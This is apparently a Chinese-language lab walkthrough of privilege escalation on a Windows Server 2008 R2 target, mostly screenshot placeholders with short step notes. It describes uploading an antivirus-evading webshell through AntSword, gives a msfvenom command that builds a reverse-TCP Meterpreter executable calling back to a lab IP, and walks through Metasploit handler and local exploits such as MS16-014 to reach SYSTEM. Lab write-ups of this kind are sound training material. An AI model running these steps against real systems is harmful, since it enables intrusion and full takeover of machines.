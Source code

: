 靶机系统为 Windows 2008 r2

直接上传 as免杀马

Base64编码链接

 

![img](file:///C:\Users\niu\AppData\Local\Temp\ksohtml23436\wps1.jpg) 

 

Systeminfo

查看系统信息

![img](file:///C:\Users\niu\AppData\Local\Temp\ksohtml23436\wps2.jpg) 

Whoami查看 权限为web

![img](file:///C:\Users\niu\AppData\Local\Temp\ksohtml23436\wps3.jpg) 

用as上传cve提权执行文件，cmd命令行dir查看

 

运行程序的时候，后面直接接命令，具体可以自己查看脚本文件

 

![img](file:///C:\Users\niu\AppData\Local\Temp\ksohtml23436\wps4.jpg) 

![img](file:///C:\Users\niu\AppData\Local\Temp\ksohtml23436\wps5.jpg) 

#ms15-051

![image-20210825170900844](8-23windows2008系统提权-基础实验\image-20210825170900844.png)





#MS16_014

kali打开终端，生成木马 .exe

msfvenom -p windosw/x64/meterpreter/reverse_tcp lhost=172.16.12.171 lport=4444 -f exe -o sf.exe

![image-20210825203414138](8-23windows2008系统提权-基础实验\image-20210825203414138.png)

用蚁剑上传木马.exe

![image-20210825203501739](8-23windows2008系统提权-基础实验\image-20210825203501739.png)

![image-20210825210550936](8-23windows2008系统提权-基础实验\image-20210825210550936.png)

![](8-23windows2008系统提权-基础实验\image-20210825210754213.png)

查看设置 options

设置payload 

设置lhost  0.0.0.0   监听所有端口 

设置lport			

运行 攻击模块  exploit -j-z 

![image-20210825211122939](8-23windows2008系统提权-基础实验\image-20210825211122939.png)

蚁剑在上传木马的文件夹下运行终端   执行木马文件，收到会话

![image-20210825211909905](8-23windows2008系统提权-基础实验\image-20210825211909905.png)

bg  设置为背景，

![image-20210825212033837](8-23windows2008系统提权-基础实验\image-20210825212033837.png)

下面准备提权，search ms16_14

![image-20210825212223963](8-23windows2008系统提权-基础实验\image-20210825212223963.png)

use  0  按 id为0的设置

设置payload 与上面监听的payload的一致，查看配置options

![image-20210825212944844](8-23windows2008系统提权-基础实验\image-20210825212944844.png)

设置会话1  设置 lhost  ，设置 端口 区别于上面的监听端口 ，run  开始提权

![image-20210825213018841](8-23windows2008系统提权-基础实验\image-20210825213018841.png)

sessions 查看  使用会话2  getuid  ，已经提升权限为system





2012

![image-20210825221141064](8-23windows2008系统提权-基础实验\image-20210825221141064.png)

同上，蚁剑上传msf马，打开监听端口后，蚁剑运行msf马，反弹shell成功，

getuid

sysinfo

#MS16_075

![image-20210825222341524](8-23windows2008系统提权-基础实验\image-20210825222341524.png)

![image-20210825222406780](8-23windows2008系统提权-基础实验\image-20210825222406780.png)

![image-20210825222627810](8-23windows2008系统提权-基础实验\image-20210825222627810.png)

![image-20210825222650572](8-23windows2008系统提权-基础实验\image-20210825222650572.png)

#MS16_032

![image-20210825223512052](8-23windows2008系统提权-基础实验\image-20210825223512052.png)

